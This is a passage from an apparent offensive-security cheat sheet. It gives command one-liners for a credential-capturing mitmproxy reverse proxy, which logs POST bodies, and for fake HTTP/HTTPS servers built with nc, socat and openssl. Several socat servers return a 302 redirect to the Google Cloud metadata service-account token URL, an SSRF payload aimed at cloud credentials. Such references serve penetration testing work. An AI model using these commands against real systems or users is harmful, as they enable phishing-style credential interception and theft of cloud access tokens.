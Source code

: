 ```
                                if [ ${PIDSTAT} -ne 0 ]; then
                                        eval timeout ${TIMEOUT} ${CMD} 2>/dev/null &
                                        PIDS[j]="${!}"
                                        let NUMDOM++
                                        echo -ne "\r>Progress: ${NUMDOM} of ${NUM} ($(awk "BEGIN {printf \"%0.2f\",(${NUMDOM}*100)/${NUM}}")%)\r"
                                        break
                                fi
                        done
                done
        fi
done < ${FILE}
wait
```

<br># Reverse Proxy
<br>```mitmdump --certs ~/cert/cert.pem --listen-port 443 --scripts script.py --set block_global=false --mode reverse:https://example.com/``` # Good for capture credentials
```
$ cat script.py
import mitmproxy.http
from mitmproxy import ctx

def request(flow):
    if flow.request.method == "POST":
        ctx.log.info(flow.request.get_text())
```

<br># Fake HTTP Server
<br>```while true ; do echo -e "HTTP/1.1 200 OK\nContent-Length: 0\n\n" | nc -vl 1.2.3.4 80; done```
<br>```socat -v -d -d TCP-LISTEN:80,crlf,reuseaddr,fork 'SYSTEM:/bin/echo "HTTP/1.1 200 OK";/bin/echo "Content-Length: 2";/bin/echo;/bin/echo "OK"'```
<br>```socat -v -d -d TCP-LISTEN:80,crlf,reuseaddr,fork 'SYSTEM:/bin/echo "HTTP/1.1 302 Found";/bin/echo "Content-Length: 0";/bin/echo "Location: http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token";/bin/echo;/bin/echo'```
<br>```FILE=image.jpg;socat -v -d -d TCP-LISTEN:80,fork "SYSTEM:/bin/echo 'HTTP/1.1 200 OK';/bin/echo 'Content-Length: '`wc -c<$FILE`;/bin/echo 'Content-Type: image/png';/bin/echo;dd 2>/dev/null<$FILE"``` # Present an image
<br>```python2 -m SimpleHTTPServer 8080```
<br>```python3 -m http.server 8080```
<br>```php -S 0.0.0.0:80```
<br>```ruby -run -e httpd . -p 80```
<br>```busybox httpd -f -p 80```
    
<br># Fake HTTPS Server
<br>```openssl req -new -x509 -keyout test.key -out test.crt -nodes```
<br>```cat test.key test.crt > test.pem```
<br>```socat -v -d -d openssl-listen:443,crlf,reuseaddr,cert=test.pem,verify=0,fork 'SYSTEM:/bin/echo "HTTP/1.1 200 OK";/bin/echo "Content-Length: 2";/bin/echo;/bin/echo "OK"'```
<br>```socat -v -d -d openssl-listen:443,crlf,reuseaddr,cert=web.pem,verify=0,fork 'SYSTEM:/bin/echo "HTTP/1.1 302 Found";/bin/echo "Content-Length: 0";/bin/echo "Location: http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token";/bin/echo;/bin/echo'```
<br>```stunnel stunnel.conf``` # Check https://www.stunnel.org/
